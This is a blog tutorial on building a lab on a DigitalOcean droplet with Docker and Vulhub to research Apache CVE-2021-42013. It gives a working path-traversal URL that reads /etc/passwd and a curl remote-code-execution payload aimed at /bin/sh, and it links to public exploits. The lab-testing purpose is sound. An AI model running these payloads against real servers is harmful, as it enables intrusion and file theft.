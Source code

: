 ```yaml
---
layout: post
title: Creating environments for researching vulnerabilities with Digital Ocean
date: 2024-03-16 21:11:55 +0200
categories: [tutorial, bug bounty]
tags: [apache, httpd, CVE-2021, path traversal, bug bounty, vps, droplet, DigitalOcean, RCE, bypass, docker, docker-compose]
pin: false
hidden: false
---
```


In cybersecurity, staying one step ahead of potential threats is crucial. This proactive approach is beneficial and necessary for bug bounty hunters, security researchers, and IT professionals who strive to safeguard digital assets from vulnerabilities. One effective way to achieve this is by setting up an environment tailored for researching known vulnerabilities. Such an environment allows us to explore using tools like Nuclei templates for vulnerability scanning and facilitates automation, enhancing efficiency and accuracy in identifying and mitigating risks.

## Why We Need Such an Environment

Establishing a dedicated environment for vulnerability research is the primary purpose of simulating real-world scenarios where vulnerabilities exist. Such an environment helps us use Nuclei templates and derivate them, which are pre-defined, community-curated templates for various vulnerability checks. This makes the research process more streamlined and comprehensive without looking for the needle in the haystack on a bug bounty program or an actual live penetration testing scope. 

## What is the Digital Ocean?

Digital Ocean is a cloud infrastructure provider that offers simplicity, scalability, and reliability for developers and businesses. Users can quickly deploy, manage, and scale applications with its intuitive platform. Digital Ocean provides various services, including Droplets (virtual private servers), managed databases, and object storage solutions, making it a versatile choice for hosting a wide range of applications and environments.

If you want to jump in this tutorial and set up your environment, here is a 200$ referral link for your new digital ocean account:

[![DigitalOcean Referral Badge](https://web-platforms.sfo2.cdn.digitaloceanspaces.com/WWW/Badge%201.svg)](https://www.digitalocean.com/?refcode=69a748f0c7fb&utm_campaign=Referral_Invite&utm_medium=Referral_Program&utm_source=badge)

## Configuring a VPS on Digital Ocean

If you know the tutorial from [https://nitesculucian.github.io/2024/03/15/get-started-with-digital-ocean-(do)-droplets-(vps)/](https://nitesculucian.github.io/2024/03/15/get-started-with-digital-ocean-(do)-droplets-(vps)/) just skip it to the next point!

Setting up a Virtual Private Server (VPS) on Digital Ocean is straightforward. After signing up using the referral link, you can create a Droplet, which is Digital Ocean's term for a VPS. During the creation process, you can choose the operating system (such as Ubuntu, CentOS, or Fedora), the Droplet size based on your needs, and the data center region. For this tutorial, it's advisable to select an operating system like Ubuntu, and here are the steps:

* On the right-hand top corner, click on the Create dropdown button and then select Droplets:

![Create Droplet](</uploads/Screenshot from 2024-03-16 21-32-30.png>)

* Select a region close to you:

![Region Selection](</uploads/Screenshot from 2024-03-16 21-39-06.png>)

* Select Ubuntu 22.04 (or the latest) operating system: 

![Ubuntu 22.04](</uploads/Screenshot from 2024-03-16 21-46-22.png>)

* Chose a size on your budget and appropriate to what you need testing:

![size m4tters](</uploads/Screenshot from 2024-03-16 21-47-19.png>)

* Upload or select your SSH key used to connect to the VPS over the root user:

![ssh key](</uploads/Screenshot from 2024-03-16 21-48-11.png>)

* Name you Droplet as you wish; I did as such:

![my target tld](</uploads/Screenshot from 2024-03-16 21-48-54.png>)

* Press "Create Droplet" wait a few seconds, get the alocated IP address and `ssh root@<your ip address>` to get started:

![Create Droplet](</uploads/Screenshot from 2024-03-16 21-51-41.png>)

## Installing Docker on your VPS

Docker is essential for creating isolated environments (containers) where you can safely run and test applications, including those with known vulnerabilities. Installing Docker on your Digital Ocean Droplet is a simple process:

```
# Install the latest version docker
curl -s https://get.docker.com/ | sh

# Run docker service
systemctl start docker
```

This setup enables you to quickly deploy and manage containers for different applications or environments without configuring separate virtual machines for each.

## Utilizing Vulhub for Vulnerability Research

Vulhub is an open-source project hosted on GitHub (https://github.com/vulhub/vulhub), which provides pre-built Docker images for various environments containing known vulnerabilities. By leveraging Vulhub, researchers can quickly deploy and test against a wide range of vulnerabilities in a controlled and isolated manner. To use Vulhub:

* Clone the Vulhub repository to your Droplet.
    * `git clone https://github.com/vulhub/vulhub.git`
* Navigate to the directory of the vulnerability you wish to research.
    * `cd vulhub/httpd/CVE-2021-42013`
* Use Docker-compose to build and run the environment.
    * `docker compose up --build`
    * Or if you want it detached: `docker compose up --build -d`

![docker compose up --build httpd/CVE-2021-42013](</uploads/Screenshot from 2024-03-16 22-34-49.png>)

## Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.50 (CVE-2021-42013) + RCE

The Apache HTTP Server Project aims to develop and maintain an open-source HTTP server for modern operating systems, including UNIX and Windows.

CVE-2021-42013 is a vulnerability caused by an incomplete fix of CVE-2021-41773; an attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. This vulnerability affects Apache HTTP Server 2.4.49 and 2.4.50 and not earlier versions.

By creating our docker container, as seen above, we have a test ground for this vulnerability. The httpd vulnerable container can be used for the following purposes:
* Honeypot to collect payloads from other World Wide Web attackers by tailing into the logs of a vulnerable system.
* Testing ground for your offensive automation and tests to fingerprint the vulnerability better or even add an intermediary Web Application Firewall (WAF) you want to bypass
* Testing ground for your defensive capabilities and detection rules

We can access our http vulnerable service by going at our Droplet public IP adress on port 8080 which can be deducted from running `docker ps` or reading the docker-compose.yml file:

![leeeroy jenkins](</uploads/Screenshot from 2024-03-16 22-52-47.png>)

But is it vulnerable? How can we find this out or fingerprint? One way is to install and run `httpx` from [ProjectDiscovery](https://docs.projectdiscovery.io/tools/httpx/overview){:target="_blank"} and see the tech behind the web service:

```bash
echo http://mytarget.tld:8080/ | httpx -tech-detect | grep 2.4.50 
```

![Alt text](</uploads/Screenshot from 2024-03-16 22-58-01.png>)

Great, now that we know that our httpd docker container runs `Apache HTTP Server:2.4.50`, we can install and use [Nuclei](https://docs.projectdiscovery.io/tools/nuclei/overview){:target="_blank"} to actually exploit or test this vulnerability: 

```bash
echo http://mytarget.tld:8080/ | nuclei -id CVE-2021-42013
```

![nuclei](</uploads/Screenshot from 2024-03-16 23-05-51.png>)

This can also be seen by going to `http://mytarget.tld:8080/icons/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd`: 

![!\[CVE-2021-42013\](image.png)](</uploads/Screenshot from 2024-03-16 23-08-04.png>)

Now let's take a look at this payload from [https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-42013](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-42013) which looks like this:

```bash
curl -v --data "echo;id" 'http://mytarget.tld:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![failed exploit of CVE-2021-42013](</uploads/Screenshot from 2024-03-16 23-44-41.png>)

As we can observe, the above payload did not successfully exploit a remote code execution (RCE) vulnerability as initially intended. That is why we still need a valid vulnerable environment to play with; not every payload will work out of the box for identifying, testing, and exploiting a vulnerability. At this point, we can have a look at the following publicly available exploit variations and adapt our own:

- [http://packetstormsecurity.com/files/164501/Apache-HTTP-Server-2.4.50-Path-Traversal-Code-Execution.html](http://packetstormsecurity.com/files/164501/Apache-HTTP-Server-2.4.50-Path-Traversal-Code-Execution.html){:target="_blank"}
- [http://packetstormsecurity.com/files/164609/Apache-HTTP-Server-2.4.50-Remote-Code-Execution.html](http://packetstormsecurity.com/files/164609/Apache-HTTP-Server-2.4.50-Remote-Code-Execution.html){:target="_blank"}
- [http://packetstormsecurity.com/files/164629/Apache-2.4.49-2.4.50-Traversal-Remote-Code-Execution.html](http://packetstormsecurity.com/files/164629/Apache-2.4.49-2.4.50-Traversal-Remote-Code-Execution.html){:target="_blank"}
- [http://packetstormsecurity.com/files/164941/Apache-HTTP-Server-2.4.50-Remote-Code-Execution.html](http://packetstormsecurity.com/files/164941/Apache-HTTP-Server-2.4.50-Remote-Code-Execution.html){:target="_blank"}
- [http://packetstormsecurity.com/files/165089/Apache-HTTP-Server-2.4.50-CVE-2021-42013-Exploitation.html](http://packetstormsecurity.com/files/165089/Apache-HTTP-Server-2.4.50-CVE-2021-42013-Exploitation.html){:target="_blank"}
- [http://packetstormsecurity.com/files/167397/Apache-2.4.50-Remote-Code-Execution.html](http://packetstormsecurity.com/files/167397/Apache-2.4.50-Remote-Code-Execution.html){:target="_blank"}

Go ahead, test every payload out there, do your research, and come up with something new that will allow you to hunt for this vulnerability more effectively!